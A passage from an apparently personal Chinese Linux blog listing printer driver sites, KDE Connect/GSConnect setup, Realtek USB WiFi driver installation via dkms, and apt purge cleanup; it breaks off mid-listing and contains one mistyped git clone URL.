<li><a href="https://ecology.chinauos.com/adaptidentification/knowledge/index.html?status=con2&amp;type1=%E5%A4%96%E8%AE%BE%E5%B8%B8%E8%A7%81%E9%97%AE%E9%A2%98&amp;type2=%E9%A9%B1%E5%8A%A8%E5%88%86%E5%8F%91&amp;num=001000" target="_blank" rel="noopener">统信UOS适配问题经验库</a></li>
<li><a href="https://www.chinauos.com/ecology/adapt" target="_blank" rel="noopener">UOS</a></li>
</ul>
<p>其他 UOS支持：</p>
<ul>
<li><a href="https://www.epson.com.cn/Apps/tech_support/GuideDriveContent.aspx?ColumnId=31254&amp;ArticleId=44589" target="_blank" rel="noopener">Epson UOS</a></li>
<li><a href="https://www.epson.com.cn/Apps/tech_support/GuideDrive.aspx?columnid=384&amp;sort-1=376&amp;product-2=378" target="_blank" rel="noopener">Epson</a></li>
<li><a href="https://support-fb.fujifilm.com/setupSupport.do?cid=3&amp;ctry_code=CN&amp;lang_code=zh_CN" target="_blank" rel="noopener">FUJIFILM</a></li>
<li><a href="http://wx.brother-movie.com/minisite/DriveManagement/" target="_blank" rel="noopener">兄弟打印机</a> | <a href="https://www.95105369.com/Web/Download.aspx" target="_blank" rel="noopener">不确定</a></li>
<li><a href="https://www.ricoh.com.cn/download" target="_blank" rel="noopener">Ricoh</a></li>
<li><a href="https://www.canon.com.cn/supports/download/sims/search/index" target="_blank" rel="noopener">Canon</a></li>
<li><a href="https://www.kyoceradocumentsolutions.com.cn/support/mfp/download/QiLin_TongXin.html" target="_blank" rel="noopener">kyoceradocumentsolutions</a></li>
<li><a href="https://www.konicaminolta.com.cn/support/drivers/index.html" target="_blank" rel="noopener">柯尼卡美能达复合机驱动程序安装指南</a></li>
</ul>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">UOS客服提供：</span><br><span class="line">爱普生官网：http<span class="variable">s:</span>//www.epson.<span class="keyword">com</span>.<span class="keyword">cn</span>/Apps/tech_support/SupportProduct.aspx?<span class="keyword">p</span>=<span class="number">31265</span></span><br><span class="line">京瓷打印机官网：http<span class="variable">s:</span>//www.kyoceradocumentsolutions.<span class="keyword">com</span>.<span class="keyword">cn</span>/support/mfp/download/QiLin_TongXin.html</span><br><span class="line">兄弟打印机官网：http<span class="variable">s:</span>//www.brother.<span class="keyword">cn</span>/project/DomesticOS/?</span><br><span class="line">联想打印机官网：http<span class="variable">s:</span>//www.lenovoimage.<span class="keyword">com</span>/<span class="built_in">index</span>.php/services/servers_drivers</span><br><span class="line">奔图打印机官网：http<span class="variable">s:</span>//www.pantum.<span class="keyword">cn</span>/support/download/driver/</span><br><span class="line">佳能打印机官网：http<span class="variable">s:</span>//www.canon.<span class="keyword">com</span>.<span class="keyword">cn</span>/supports/download/sims/<span class="built_in">search</span>/<span class="built_in">index</span></span><br><span class="line">惠普打印机官网：http<span class="variable">s:</span>//support.hp.<span class="keyword">com</span>/<span class="keyword">cn</span>-zh/drivers/printers</span><br><span class="line">理光打印机官网：http<span class="variable">s:</span>//www.ricoh.<span class="keyword">com</span>.<span class="keyword">cn</span>/download</span><br><span class="line">紫光扫描官网：http://www.unisscan.<span class="keyword">com</span>/support.html</span><br><span class="line">汉光打印机官网：http://www.hg-oa.<span class="keyword">com</span>/soft.php?page=<span class="number">1</span></span><br><span class="line">利盟打印机官网：http<span class="variable">s:</span>//<span class="keyword">cn</span>.lexmark.<span class="keyword">com</span>/</span><br><span class="line">柯尼卡美能达官网：http<span class="variable">s:</span>//www.konicaminolta.<span class="keyword">com</span>.<span class="keyword">cn</span>/support/drivers/<span class="built_in">index</span>.html</span><br><span class="line">富士施乐打印机官网：http<span class="variable">s:</span>//support-fb.fujifilm.<span class="keyword">com</span>/setupSupport.<span class="keyword">do</span></span><br><span class="line">立思辰打印机官网：http<span class="variable">s:</span>//www.cgprintech.<span class="keyword">com</span>/Driver_Download.html?companfileCateId=<span class="number">1</span></span><br><span class="line">东芝打印机官网：http<span class="variable">s:</span>//www.toshiba-tec.<span class="keyword">com</span>.<span class="keyword">cn</span>/Service/driver-download.aspx</span><br></pre></td></tr></table></figure>
<h3 id="Linux手机互联"><a href="#Linux手机互联" class="headerlink" title="Linux手机互联"></a>Linux手机互联</h3><p>最近又试了下Linux、Android互联——KDE Connect(实际上它不仅支持Linux和安卓，还支持Windows、iOS、MacOS，只不过是在Linux下更好用罢了)。</p>
<p>竟然出奇的好用。。。。至少它满足了我以下需求：</p>
<ol>
<li>手机通知发送到电脑。也就是我专心看电脑玩手机时，手机的短信、微信消息也可以推送到电脑上。</li>
<li>电脑通知发送到手机。在我专心玩手机的时候也能第一时间收到电脑的通知。</li>
<li>电脑、手机文件互传。电脑可以直接访问手机，并且不用通过USB数据线！</li>
<li>电脑上可以直接回复、处理部分手机信息。比如电脑直接复制手机收到的短信验证码。</li>
<li>电脑和手机的剪贴板互联。</li>
<li>手机控制电脑。比如手机控制电脑锁屏、解锁，这样解锁电脑不用再输入密码了。</li>
</ol>
<p>KDE上直接使用Kde Connect，GNOME可以使用gnome扩展Gsconnect。</p>
<p>开机启用Gsconnect：</p>
<p><code>~/.local/share/gnome-shell/extensions/gsconnect@andyholmes.github.io/service/daemon.js&amp;</code></p>
<p>注意：电脑收不到安卓通知，可能是由于手机推送不及时或者KDE Connect没有通知访问权限(我就是由于通知不及时导致电脑有时无法收到安卓通知，解决办法很简单，打开通知，重新给予通知访问权限就行了，也就是刷新下安卓推送)。</p>
<p>使用截屏：</p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p>手机控制锁屏：</p>
<p></p>
<h3 id="无线网卡驱动"><a href="#无线网卡驱动" class="headerlink" title="无线网卡驱动"></a>无线网卡驱动</h3><h4 id="通用教程"><a href="#通用教程" class="headerlink" title="通用教程"></a>通用教程</h4><blockquote>
<p><a href="https://github.com/morrownr/USB-WiFi" target="_blank" rel="noopener">https://github.com/morrownr/USB-WiFi</a></p>
</blockquote>
<p>前言：在 Linux 中有许多无需安装驱动程序即可工作的 USB WiFi 适配器。这些<a href="https://github-com.translate.goog/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Adapters_that_are_supported_with_Linux_in-kernel_drivers.md?_x_tr_sl=auto&amp;_x_tr_tl=zh-CN&amp;_x_tr_hl=zh-TW&amp;_x_tr_pto=wapp" target="_blank" rel="noopener">适配器</a>使用 Linux 内核中已有的驱动程序。内核驱动程序在内核中维护，无需用户干预。对于使用内核驱动程序的适配器，只需插入适配器即可工作。许多人发现使用带有内核驱动程序的适配器比使用需要找到驱动程序（不容易找到合适的驱动程序）、下载、编译（对于那些不是开发人员的人感到困惑）和安装的适配器更好的解决方案（有问题，取决于 Linux 发行版和其他因素）。</p>
<p>为USB WIFI硬件制造商提供芯片的公司：Mediatek 和 Realtek（英特尔不提供支持 USB 的芯片组，而 Atheros 也不提供支持 USB 的现代芯片组）。在提供 USB Wifi 芯片组的两家供应商中，联发科以正确的方式在内核中支持其芯片组的驱动程序。Mediatek 驱动程序符合 Linux 无线标准，并且会不断更新，用户无需担心。Realtek 不支持带有内核驱动程序的现代 USB Wifi 芯片组。Realtek 确实制作了不符合标准的 Linux 驱动程序，但不公开发布它们或接受问题报告。极少数供应商会以非常不规律的间隔发布 Realtek USB WiFi 驱动程序。这些驱动程序以源代码格式发布，必须编译才能使用。随着新内核的发布，Realtek 驱动程序跟不上所需的更改。这项工作似乎取决于社区中像我这样的人。我喜欢 Realtek USB 团队如何支持 Linux 社区吗？不，我推荐什么？从做对的公司 - Mediatek 购买基于芯片组的适配器。大多数 Linux 用户在购买 USB WiFi 适配器时遇到的最大问题是能够可靠地识别哪些适配器具有内核支持，这是该站点的主要原因。</p>
<p>综上，首选联发科芯片，有关联发科芯片的适配器驱动可以在这里了解（内核驱动<a href="https://github.com/torvalds/linux/tree/master/drivers/net/wireless/mediatek" target="_blank" rel="noopener">源代码</a>）：<a href="https://wireless.wiki.kernel.org/en/users/drivers/mediatek" target="_blank" rel="noopener">https://wireless.wiki.kernel.org/en/users/drivers/mediatek</a></p>
<p>内核驱动支持的Wi-Fi设备（即插即用）：<a href="https://github.com/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Adapters_that_are_supported_with_Linux_in-kernel_drivers.md" target="_blank" rel="noopener">https://github.com/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Adapters_that_are_supported_with_Linux_in-kernel_drivers.md</a></p>
<p>需要自行安装驱动的Wi-Fi设备（Realtek为主）：<a href="https://github.com/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Adapter_out-of-kernel_drivers_for_Linux.md" target="_blank" rel="noopener">https://github.com/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Adapter_out-of-kernel_drivers_for_Linux.md</a></p>
<p>Linux下无线网卡驱动问题相关历史：</p>
<figure class="highlight arduino"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">警告：在线零售商发布“Linux 支持”是很常见的。最好忽略在线广告中的“Linux 支持”，因为这种说法往好了说是误导，往坏了说是错误的。大多数没有经验的用户不了解 Linux 内核正在不断发展，这使得驱动程序必须定期更新才能在更新的内核上工作。位于 CD 或适配器销售商网站上的内核外驱动程序不会定期更新。经验法则：永远不要尝试从 CD 安装 Linux 驱动程序。如果您确认它支持您正在使用的内核，请只考虑从适配器销售商的网站下载 Linux 驱动程序。该 CD 或卖家网站上的内核外驱动程序可能很旧，很可能只会弄乱您的系统。请记住sudo如果在不知道自己在做什么的情况下使用，是一种大规模杀伤性武器。另一条经验法则：不要接受 Windows 和 MAC 用户的硬件建议。所有主要的 Linux 发行版都有活跃的论坛，用户随时可以提供建议。不要听取单个用户的建议，而是征求多个用户的建议，并始终询问适配器是否使用内核驱动程序。</span><br><span class="line"></span><br><span class="line">某些 USB <span class="built_in">WiFi</span> 适配器具有板载专有的 Windows 驱动程序。插入时，它们就像闪存驱动器或 CDROM，在 Windows 上将尝试开始安装 Windows 驱动程序。这不适用于 Linux 或 MAC 或任何其他非 Windows 操作系统，因此适配器位于闪存驱动器或 CDROM 模式下。问题是必须更改适配器的状态才能使适配器显示为您期望的设备，在本例中为 <span class="built_in">WiFi</span> 适配器。大多数现代 Linux 发行版都附带一个名为usb-modeswitch的实用程序如果它具有适用于您的适配器的正确信息，它将为您处理此问题。这是一个很好的实用程序，但如果您购买“多状态”的适配器，那么当出现问题时，您可能不得不处理另一个潜在的麻烦。通常您可以识别“多状态”适配器，因为它们被宣传为“免费驱动程序”或“免费安装驱动程序”。如果您想购买用于 Linux、MAC OS、NIX 或除 Windows 之外的任何应用的 USB <span class="built_in">WiFi</span> 适配器，最好优先选择单态适配器。</span><br><span class="line"></span><br><span class="line">警告：我不会列出 TP-Link 和 D-Link 制造的任何产品。两家公司定期更换芯片组，同时在其产品上保持相同的型号。这使得 Linux 用户很难确定地识别具有特定芯片组的产品。这也让我很难发布链接和建议，所以我不会这样做，但这没关系，因为其他公司（如 Alfa 和 Panda）提供了许多不错的适配器。TP-Link 和 D-Link 的 Linux 支持非常差，因为他们的产品支持站点通常只包含非常旧的 Linux 驱动程序，这些驱动程序不能与现代发行版一起使用......如果他们根本没有发布任何驱动程序并且两家公司都没有做好提供使用内核驱动程序的适配器。我们知道，Linux 无法以两家公司使用的方式得到适当支持。这是可悲的，因为两家公司通过在他们的许多产品中使用 Linux 从中赚了很多钱，但他们没有回报支持。我的建议是避免使用 TP-Link 和 D-Link USB <span class="built_in">WiFi</span> 适配器。</span><br><span class="line"></span><br><span class="line">另一方面，我必须对 <span class="number">2</span> 家在制作适用于 Linux 的适配器方面做得非常出色的公司表示赞赏：Alfa 和 Panda。Alfa 制造非常高质量的适配器。选定的适配器使用内核驱动程序。他们的网站上有 Linux 信息，为不使用内核驱动程序的适配器提供技术支持和内核外驱动程序的链接。Panda 长期以来只生产使用 Linux 内核驱动程序的 USB 适配器。这两家公司的 USB <span class="built_in">WiFi</span> 适配器都很难出错。</span><br><span class="line"></span><br><span class="line">WPA3-SAE 支持：就内核驱动程序而言，我过去几年的测试显示 WPA3 的结果非常积极。我已经测试了从 N150 到 AXE3000 的 USB <span class="built_in">WiFi</span> 适配器。似乎所有使用 Mediatek/Ralink 和 Atheros 芯片组和内核驱动程序的适配器都适用于 WPA3。请记住，您的 Linux 发行版必须支持 WPA3 才能使 WPA3 正常工作。截至 <span class="number">2022</span> 年年中，我使用和测试的所有发行版都与 WPA3 配合良好。这包括 Ubuntu <span class="number">22.04</span> LTS 及更高版本以及所有官方和非官方版本的 Ubuntu。</span><br><span class="line"></span><br><span class="line">在此站点维护的 Realtek 内核外驱动程序的用户经常提出一个问题。问题是why don<span class="number">'</span>t you submit <span class="keyword">this</span> driver to be included in the Linux kernel?回答：Realtek 内核外驱动程序不符合 Linux 标准，我们没有足够的文档，Realtek 也无济于事。创建新的驱动程序可能会更容易，但这将是一项艰巨的任务，超出了用户社区中可用的资源。</span><br></pre></td></tr></table></figure>
<p>自带驱动的网卡的模式切换：<a href="https://github.com/morrownr/USB-WiFi/blob/main/home/How_to_Modeswitch.md" target="_blank" rel="noopener">https://github.com/morrownr/USB-WiFi/blob/main/home/How_to_Modeswitch.md</a></p>
<h4 id="Linux-的-USB-WiFi-芯片组信息"><a href="#Linux-的-USB-WiFi-芯片组信息" class="headerlink" title="Linux 的 USB WiFi 芯片组信息"></a>Linux 的 USB WiFi 芯片组信息</h4><blockquote>
<p><a href="https://github.com/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Chipsets.md" target="_blank" rel="noopener">https://github.com/morrownr/USB-WiFi/blob/main/home/USB_WiFi_Chipsets.md</a></p>
</blockquote>
<h4 id="找不到联发科芯片的驱动？"><a href="#找不到联发科芯片的驱动？" class="headerlink" title="找不到联发科芯片的驱动？"></a>找不到联发科芯片的驱动？</h4><blockquote>
<p><a href="https://github.com/morrownr/USB-WiFi/blob/main/home/How_to_Install_Firmware_for_Mediatek_based_USB_WiFi_adapters.md" target="_blank" rel="noopener">https://github.com/morrownr/USB-WiFi/blob/main/home/How_to_Install_Firmware_for_Mediatek_based_USB_WiFi_adapters.md</a></p>
</blockquote>
<p>目的：提供为基于 Mediatek 的 USB WiFi 适配器安装或升级固件的步骤。某些 Linux 发行版不包含支持 USB WiFi 适配器所需的固件。Debian 就是一个很好的例子。其他发行版会出错并将固件排除在他们的发行版之外，有时您可能需要更新固件。希望以下内容对您有所帮助。</p>
<p>去<a href="https://git-kernel-org.translate.goog/pub/scm/linux/kernel/git/firmware/linux-firmware.git/tree/?_x_tr_sl=auto&amp;_x_tr_tl=zh-CN&amp;_x_tr_hl=zh-TW&amp;_x_tr_pto=wapp" target="_blank" rel="noopener">https://git-kernel-org.translate.goog/pub/scm/linux/kernel/git/firmware/linux-firmware.git/tree/?_x_tr_sl=auto&amp;_x_tr_tl=zh-CN&amp;_x_tr_hl=zh-TW&amp;_x_tr_pto=wapp</a> 下载</p>
<h4 id="监听模式"><a href="#监听模式" class="headerlink" title="监听模式"></a>监听模式</h4><blockquote>
<p><a href="https://github.com/morrownr/Monitor_Mode" target="_blank" rel="noopener">https://github.com/morrownr/Monitor_Mode</a></p>
</blockquote>
<h4 id="AC-1200驱动-——-Realtek-8812AU"><a href="#AC-1200驱动-——-Realtek-8812AU" class="headerlink" title="AC-1200驱动 —— Realtek 8812AU"></a>AC-1200驱动 —— Realtek 8812AU</h4><figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br></pre></td><td class="code"><pre><span class="line">git clone <span class="symbol">https:</span>/<span class="regexp">/github.com/aircrack</span>-ng/rtl8812au.git</span><br><span class="line">root@ASUS-<span class="symbol">Tek004:</span>/home/jessie/Prog/rtl8812au<span class="comment"># sudo make dkms_install</span></span><br><span class="line">About to run dkms install steps...</span><br><span class="line"></span><br><span class="line">Creating symlink /var/<span class="class"><span class="keyword">lib</span>/<span class="title">dkms</span>/<span class="title">rtl8812au</span>/5.6.4.2/<span class="title">source</span> -&gt;</span></span><br><span class="line">                 /usr/src/rtl8812au-<span class="number">5.6</span>.<span class="number">4.2</span></span><br><span class="line"></span><br><span class="line"><span class="symbol">DKMS:</span> add completed.</span><br><span class="line"></span><br><span class="line">Kernel preparation unnecessary <span class="keyword">for</span> this kernel.  Skipping...</span><br><span class="line"></span><br><span class="line">Building <span class="class"><span class="keyword">module</span>:</span></span><br><span class="line">cleaning build area...</span><br><span class="line"><span class="string">'make'</span> -j4 KVER=<span class="number">5.3</span>.<span class="number">0</span>-kali3-amd64 KSRC=<span class="regexp">/lib/modules</span><span class="regexp">/5.3.0-kali3-amd64/build</span>.......................</span><br><span class="line">cleaning build area...</span><br><span class="line"></span><br><span class="line"><span class="symbol">DKMS:</span> build completed.</span><br><span class="line"></span><br><span class="line"><span class="number">88</span>XXau.<span class="symbol">ko:</span></span><br><span class="line">Running <span class="class"><span class="keyword">module</span> <span class="title">version</span> <span class="title">sanity</span> <span class="title">check</span>.</span></span><br><span class="line"> - Original <span class="class"><span class="keyword">module</span></span></span><br><span class="line">   - Found /<span class="class"><span class="keyword">lib</span>/<span class="title">modules</span>/5.3.0-<span class="title">kali3</span>-<span class="title">amd64</span>/<span class="title">updates</span>/88<span class="title">XXau</span>.<span class="title">ko</span></span></span><br><span class="line">   - Storing in /var/<span class="class"><span class="keyword">lib</span>/<span class="title">dkms</span>/<span class="title">rtl8812au</span>/<span class="title">original_module</span>/5.3.0-<span class="title">kali3</span>-<span class="title">amd64</span>/<span class="title">x86_64</span>/</span></span><br><span class="line">   - Archiving <span class="keyword">for</span> uninstallation purposes</span><br><span class="line"> - Installation</span><br><span class="line">   - Installing to /<span class="class"><span class="keyword">lib</span>/<span class="title">modules</span>/5.3.0-<span class="title">kali3</span>-<span class="title">amd64</span>/<span class="title">updates</span>/</span></span><br><span class="line"></span><br><span class="line">depmod...</span><br><span class="line"></span><br><span class="line"><span class="symbol">DKMS:</span> install completed.</span><br><span class="line">Finished running dkms install steps.</span><br><span class="line"></span><br><span class="line"><span class="comment">#### 解决rtl8812au网卡驱动安装后，无法扫描wifi的问题：</span></span><br><span class="line">vi /etc/NetworkManager/NetworkManager.conf</span><br><span class="line">注释掉最后一行：</span><br><span class="line">------------------------------------------</span><br><span class="line">[main]</span><br><span class="line">plugins=ifupdown,keyfile</span><br><span class="line"></span><br><span class="line">[ifupdown]</span><br><span class="line">managed=<span class="literal">false</span></span><br><span class="line"></span><br><span class="line">[keyfile]</span><br><span class="line"><span class="comment"># unmanaged-devices=interface-name:wlan1</span></span><br><span class="line">------------------------------------------</span><br><span class="line">然后 service NetworkManager restart</span><br><span class="line"></span><br><span class="line"><span class="comment">#### 卸载驱动</span></span><br><span class="line">$ sudo make dkms_remove</span><br></pre></td></tr></table></figure>
<h4 id="D-Link-DWA-192网卡驱动-——-Realtek-8814AU"><a href="#D-Link-DWA-192网卡驱动-——-Realtek-8814AU" class="headerlink" title="D-Link DWA-192网卡驱动 —— Realtek 8814AU"></a>D-Link DWA-192网卡驱动 —— Realtek 8814AU</h4><p>来自morrownr (推荐)</p>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">sudo apt <span class="keyword">update</span> &amp;&amp; sudo apt upgrade</span><br><span class="line">sudo apt install -<span class="keyword">y</span> linux-headers-$(uname -r) build-essential bc dkms git libelf-dev rfkill iw</span><br><span class="line">git clone http<span class="variable">s:</span>//github.<span class="keyword">com</span>/morrownr/<span class="number">8814</span>auhttp<span class="variable">s:</span>//github.<span class="keyword">com</span>/morrownr/<span class="number">8814</span><span class="keyword">au</span></span><br><span class="line"><span class="keyword">cd</span> ~/src/<span class="number">8814</span><span class="keyword">au</span></span><br><span class="line">sudo ./install-driver.<span class="keyword">sh</span></span><br><span class="line"># 卸载的话：</span><br><span class="line">sudo ./<span class="built_in">remove</span>-driver.<span class="keyword">sh</span></span><br></pre></td></tr></table></figure>
<p>来自aircrack-ng(Debian 12似乎会出错)</p>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br></pre></td><td class="code"><pre><span class="line">$ git clone http<span class="variable">s:</span>//github.<span class="keyword">com</span>/aircrack-ng/rtl8814au.git</span><br><span class="line"></span><br><span class="line">$ <span class="keyword">make</span> dkms_install</span><br><span class="line"><span class="built_in">and</span> <span class="keyword">to</span> <span class="built_in">remove</span> the dkms driver, <span class="built_in">type</span>..</span><br><span class="line">$ <span class="keyword">make</span> dkms_remove</span><br><span class="line"></span><br><span class="line"># 生成DEB安装包：</span><br><span class="line">$ apt install debhelper dpkg-dev dkms libelf-dev bc </span><br><span class="line">$ dpkg-buildpackage -<span class="keyword">b</span> --<span class="keyword">no</span>-<span class="keyword">sign</span></span><br><span class="line">$ <span class="keyword">cd</span> ..</span><br><span class="line">$ dpkg -i rtl8814au-dkms_5.<span class="number">8.5</span>.<span class="number">1</span>-<span class="number">24835.20190115</span>_all.<span class="keyword">deb</span></span><br><span class="line"></span><br><span class="line">USB <span class="number">2.0</span> <span class="number">3.0</span>切换：</span><br><span class="line"> initial it will use USB2.<span class="number">0</span> <span class="keyword">mode</span> which will limite <span class="number">5</span>G <span class="number">11</span>ac throughput (USB2.<span class="number">0</span> bandwidth <span class="keyword">only</span> <span class="number">480</span>Mbps =&gt; throughput around <span class="number">240</span>Mbps)</span><br><span class="line">when modprobe <span class="built_in">add</span> following <span class="keyword">options</span> will <span class="keyword">let</span> it switch <span class="keyword">to</span> USB3.<span class="number">0</span> <span class="keyword">mode</span> at initial driver</span><br><span class="line"><span class="keyword">options</span> <span class="number">8814</span><span class="keyword">au</span> rtw_switch_usb_mode=<span class="number">1</span></span><br><span class="line"></span><br><span class="line">## TODO: run time <span class="keyword">change</span> usb2.<span class="number">0</span>/<span class="number">3.0</span> <span class="keyword">mode</span></span><br><span class="line">### usb2.<span class="number">0</span> =&gt; usb3.<span class="number">0</span></span><br><span class="line">```</span><br><span class="line">sudo <span class="keyword">sh</span> -<span class="keyword">c</span> <span class="string">"echo '1' &gt; /sys/module/8814au/parameters/rtw_switch_usb_mode"</span></span><br><span class="line">```</span><br><span class="line">### usb3.<span class="number">0</span> =&gt; usb2.<span class="number">0</span></span><br><span class="line">```</span><br><span class="line">sudo <span class="keyword">sh</span> -<span class="keyword">c</span> <span class="string">"echo '2' &gt; /sys/module/8814au/parameters/rtw_switch_usb_mode"</span></span><br><span class="line">```</span><br></pre></td></tr></table></figure>
<h4 id="水星Mercury-UD6无线网卡驱动——Realtek-8821CU"><a href="#水星Mercury-UD6无线网卡驱动——Realtek-8821CU" class="headerlink" title="水星Mercury UD6无线网卡驱动——Realtek 8821CU"></a>水星Mercury UD6无线网卡驱动——Realtek 8821CU</h4><blockquote>
<p>参考：</p>
<p><a href="https://github.com/morrownr/8821cu-20210916" target="_blank" rel="noopener">https://github.com/morrownr/8821cu-20210916</a></p>
<p><a href="https://github.com/brektrou/rtl8821CU/issues/206" target="_blank" rel="noopener">https://github.com/brektrou/rtl8821CU/issues/206</a></p>
</blockquote>
<p>此方法适用于<code>rtl8811cu, rtl8821cu and rtl8731au</code></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">lsusb符合下列的可用:</span><br><span class="line">ID <span class="number">0</span>BDA:B82B</span><br><span class="line">ID <span class="number">0</span>BDA:b820</span><br><span class="line">ID <span class="number">0</span>BDA:C821</span><br><span class="line">ID <span class="number">0</span>BDA:C820</span><br><span class="line">ID <span class="number">0</span>BDA:C82A</span><br><span class="line">ID <span class="number">0</span>BDA:C82B</span><br><span class="line">ID <span class="number">0</span>BDA:C82C</span><br><span class="line">ID <span class="number">0</span>BDA:C811</span><br><span class="line">ID <span class="number">0</span>BDA:<span class="number">8811</span></span><br><span class="line">ID <span class="number">0</span>BDA:<span class="number">2006</span></span><br><span class="line">ID <span class="number">0</span>BDA:<span class="number">8731</span></span><br><span class="line">ID <span class="number">0</span>BDA:C80C</span><br></pre></td></tr></table></figure>
<p><strong>注意</strong>：从 Linux 内核 6.2 开始，内核驱动程序支持的芯片组 此驱动程序已包含在 Linux 内核中。  安装和拆卸 此 repo 中驱动程序的脚本会自动停用内核中的 安装驱动程序并在删除时重新激活内核驱动程序。  不 用户需要采取特殊措施。 </p>
<p>警告：为同一硬件安装多个内核外驱动程序 通常不会很好地结束。  install-driver.sh 脚本具有以下功能 检测并删除许多有冲突的驱动程序，但不是全部。  如果这个司机 安装后不能很好地工作，并且您之前已经安装了 您没有删除的驱动程序，它建议您运行以下命令 命令以确定您是否需要手动执行操作 删除冲突的驱动程序： </p>
<p><code>sudo dkms status</code></p>
<p>安装驱动（建议使用dkms安装）：</p>
<p>克隆仓库：<code>https://github.com/morrownr/8821cu-20210916.git</code></p>
<p>运行安装脚本：<code>sudo ./install-driver.sh</code></p>
<p>接下来根据提示安装即可，切换监听模式请使用<code>iw dev wlan0 set monitor none</code>，而不要使用<code>airmon-ng</code>(来自其他人的建议)</p>
<h3 id="清理Linux磁盘空间"><a href="#清理Linux磁盘空间" class="headerlink" title="清理Linux磁盘空间"></a>清理Linux磁盘空间</h3><h4 id="APT-Purge清理配置文件"><a href="#APT-Purge清理配置文件" class="headerlink" title="APT Purge清理配置文件"></a>APT Purge清理配置文件</h4><blockquote>
<p><a href="https://blog.51cto.com/u_15077545/4134158" target="_blank" rel="noopener">https://blog.51cto.com/u_15077545/4134158</a></p>
</blockquote>
<p><code>sudo apt-get remove &lt;package-name&gt;</code></p>
<p><code>sudo apt-get purge &lt;package-name&gt;</code></p>
<p>remove将会删除软件包，但会保留配置文件．purge会将软件包以及配置文件都删除．所以找出系统上哪些软件包留下了残余的配置文件: <code>dpkg --list | grep &quot;^rc&quot;</code></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line">rc  libapache2-mod-php7<span class="number">.4</span>                         <span class="number">7.4</span><span class="number">.33</span><span class="number">-1</span>+deb11u1                 amd64        server-side, HTML-embedded scripting language (Apache <span class="number">2</span> module)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-13</span>-amd64                   <span class="number">5.10</span><span class="number">.106</span><span class="number">-1</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-15</span>-amd64                   <span class="number">5.10</span><span class="number">.120</span><span class="number">-1</span>                       amd64        Linux <span class="number">5.10</span> <span class="keyword">for</span> <span class="number">64</span>-bit PCs (signed)</span><br><span class="line">rc  linux-image<span class="number">-5.10</span><span class="number">.0</span><span class="number">-16</span>-amd64                   <span 